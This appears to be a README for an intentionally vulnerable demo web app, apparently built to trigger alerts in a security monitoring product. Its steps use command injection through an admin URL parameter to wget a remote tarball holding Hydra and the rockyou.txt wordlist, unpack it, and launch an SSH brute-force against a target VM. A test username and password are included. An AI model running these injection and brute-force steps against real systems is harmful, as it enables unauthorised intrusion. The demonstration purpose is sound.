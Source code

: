 # Hydra scenario

This application lets you write messages, whatever they are (it is certainly possible to hack the message form by itself).
This is entirely managed in-memory, so dev team decided to add endpoints where you can check your log file and decide to load messages directly from the log in case of a restart.

Hitting the http://{yourhost}:{port}/ will let you add messages. 

Hitting http://{yourhost}:{port}/admin lets you start the actual hack by passing command

# Prerequisites
Prepare a VM with ssh enabled and get its ip to launch hydra against this specific machine.

Also you can add a user molly with this password 04Darter_Dew to ensure Hydra will be able to connect on the VM you hosted.
You can change the username and adapt the 7th command.

The sapp.tar.gz file is containing hydra pre-compiled for Ubuntu (only tested on Ubuntu), the rockyou.txt password file, and the launch script to be set in the url to avoid PATH issues.
The file is available directly from here and also from the link in the steps below.

# Steps

1. Start browsing the app at http://{yourhost}:{port}/, explaining this is the same scenario as having [EVAL command available in Redis](https://redis.io/commands/eval).
2. Then move to the admin page and show the tail or cat command. 
3. Explain you have those links to decide if you'll hydrate messages from the log file or not. But there is an issue as the cat/tail link let you run arbitrary command on the host.
4. Type in the url bar http://{yourhost}:{port}/admin/ops?cmd=wget&args=https://storage.googleapis.com/nwlw-raw-data/sapp.tar.gz . This will download a Hydra pre-packed zip file. (should triggered the 1st alert in LW)
5. Go to http://{yourhost}:{port}/admin/ops?cmd=tar&args=-xzf,sapp.tar.gz Uncompress the file
5. Go to http://{yourhost}:{port}/admin/ops?cmd=./launch.sh&args={target machine ip}